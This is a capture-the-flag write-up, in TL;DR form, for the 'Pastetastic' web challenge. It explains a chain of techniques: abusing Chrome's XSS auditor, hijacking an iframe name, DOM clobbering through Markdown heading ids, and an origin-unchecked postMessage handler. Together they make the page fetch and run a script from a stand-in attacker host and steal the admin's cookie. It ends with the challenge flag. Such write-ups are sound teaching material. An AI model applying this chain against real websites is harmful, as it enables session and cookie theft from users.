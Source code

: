 # TL;DR

This is just a not-that-**quick summary on the important points** / tricks of the challenge for those who worked on the challenge, but got stuck at some point / missed some tricks.

Read the **whole story below** ▼▼▼!

* There is no (known) vulnerability in the third-party libraries ([Prism](https://prismjs.com/) and [Marked.js](https://marked.js.org))
* The admin visit any reported URL, not just the posts on Pastetastic
  * you have to modify the "DMCA" report's HTTP request after the Recaptcha check
* `CONFIG` JS variable can be removed by abusing Chrome's XSS auditor via sending `<script ...>CONFIG=...</script>` as query parameter (e.g. `?PlzRemoveThisCodeForMe=<script>...`)
  * this is possible since Chrome 74 as it switched to `filter` mode by default instead of previous `block`
    * `filter` = removes code, `block` = does not load the website at all
    * admin used Headless Chrome 77
    * more info in this Twitter thread: https://twitter.com/shhnjk/status/1121138947923406848
* `CONFIG` variable can be reintroduced by iframeing the website and modifying the `name` of one of its internal iframes 
  * there is no `X-Frame-Options: DENY` header, so iframeing is possible
  * to modify the `name` of the `iframe` to `CONFIG`, you first have to set the `location` of the `iframe` to a same-origin location (same-origin as `top` frame)
  * `iframes` are available on `window` as properties by their name and `window` properties are visible the same way as global JS variables - read more about [in the specs](https://html.spec.whatwg.org/multipage/window-object.html#document-tree-child-browsing-context-name-property-set)
* You cannot run scripts in the `sandbox` iframe (as its `sandbox` attribute does not include `allow-scripts` value), but Recaptcha also adds two iframes which do not have the `sandbox` attribute set, so they can run scripts
  * so redirect one of Recaptcha's iframe (not the `sandbox` one) and name it as `CONFIG`
* The [Marked library](https://github.com/markedjs/marked/blob/master/lib/marked.js) used for rendering Markdown is able to include `<img>` tag with `src` attribute and adds `id` attribute to heading tags (eg. to `#` -> `h1`)
  * `# ![someName](URL)` will be converted to `<h1 id="someName"><img src="URL" ...></h1>`
  * [here is the code](https://github.com/markedjs/marked/blob/0b7fc5e3420832efc1c8892d9792363a85d199a5/lib/marked.js#L973) which calculates the `id` value (requires `headerIds` to be set to `true`, but this is the default config)
* The website's `postMessage` handling code (`app.js:13`) does not check the `origin` and can be called by untrusted parties (us :P)
* By creating a fake DOM structure (via **DOM Clobbering**) with the help of the tricks described above, it is possible the make `app.js`'s code to call `loadScripts` with our JS file (which will eval our code and **steal the flag** in the cookie)
  * `this.config = CONFIG.viewer[index];` (`app.js:24`)
    * `CONFIG` is our hijacked Recaptcha iframe pointing to our html file
    * our html file contains `<iframe name="viewer" src="https://pastetastic...com/view/..."></iframe>` which points to a Markdown file
      * this would not work if we used the `sandbox` iframe, as rendering Markdown requires JS, that's why we used one of Recaptcha's iframe
    * `CONFIG.viewer` is the `view` page
    * `CONFIG.viewer[index]` (`index=0`) is the Markdown viewer page's first iframe (so the `sandbox` iframe) and this is where the rendered Markdown is
    * so `this.config` is our rendered Markdown's window
  * for loop on `this.config.dependencies` (`app.js:28`)
    * Markdown "`# dependencies`" was converted to `<h1 id="dependencies">...</h1>`
    * named elements are visible on the window (aka. on `this.config`) - again: [here is the specs](https://html.spec.whatwg.org/multipage/window-object.html#document-tree-child-browsing-context-name-property-set)
    * so `this.config.dependencies` is our `<h1>` tag (in JS it's a `[object HTMLHeadingElement]`)
    * `this.config.dependencies.length` is `undefined` as `HTMLHeadingElement` does not have a `length` property
    * `i < this.config.dependencies.length` is `false` as `0 < undefined == false` in JS
    * so the for loop never runs
  * for loop on `this.config.preload` (`app.js:33`)
    * same as before for `dependencies`
  * `this.loadPlugin(evt.data.lang)` (`app.js:16`)
    * `evt.data.lang` can be anything and is fully controlled by us via `postMessage` call
  * `const spec = this.config.plugins[lang];` (`app.js:53`)
    * Markdown "`# ![plugins](https://attacker.com/expl.js)`" was converted to `<h1 id="plugins"><img src="https://attacker.com/expl.js" ...></h1>`
    * `this.config.plugins` is the `<h1>` tag
    * set `lang` to `firstElementChild`
    * `this.config.plugins[lang]` is `h1`'s `firstElementChild`, so the `<img>` tag
    * `spec.requires` (`app.js:54`) is `undefined` as `HTMLImageElement` does not have an `requires` property, so this `if` is ignored
  * `this.loadScript(spec);` (`app.js:59`)
    * so `spec` is the `<img>` tag (`HTMLImageElement`)
    * `spec.integrity` (`app.js:68`) is `undefined` as `HTMLImageElement` does not have an `integrity` property, so this `if` is ignored
    * `fetch(spec.src, params)` (`app.js:71`) fetches the `<img>` tag's `src` attribute which is our exploit's URL
      * CORS should be considered, so the JS file should be served with the following headers:
        * `Access-Control-Allow-Origin: *`
        * `Access-Control-Allow-Methods: GET`
* Flag in admin's browser was only available via HTTPS (`secure` flag in set on cookie)
  * so use HTTPS websites for each steps, not to run into mixed content errors

**The flag:** `CTF{694435c0074e860b24cad51f584d0d30}`

# Story

... TODO ...